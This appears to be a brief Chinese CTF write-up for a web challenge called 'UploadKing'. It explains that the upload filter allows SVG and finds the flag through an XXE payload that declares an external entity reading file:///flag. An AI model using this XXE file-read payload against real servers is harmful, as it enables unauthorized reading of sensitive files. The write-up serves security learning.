


# Web-3-UploadKing

允许上传 `SVG、gif、bmp、webp`，其他图片后缀名都不可能渲染，并且尝试后发现可以解析成 php 的后缀名基本都不可以，应该是白名单

尝试一下 `svg`，本地写一个空的 `svg`

打开会发现



那么可以尝试一下 XXE：

```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ENTITY xxe SYSTEM "file:///flag">  
]>  
<data>&xxe;</data>
```

得到 flag：

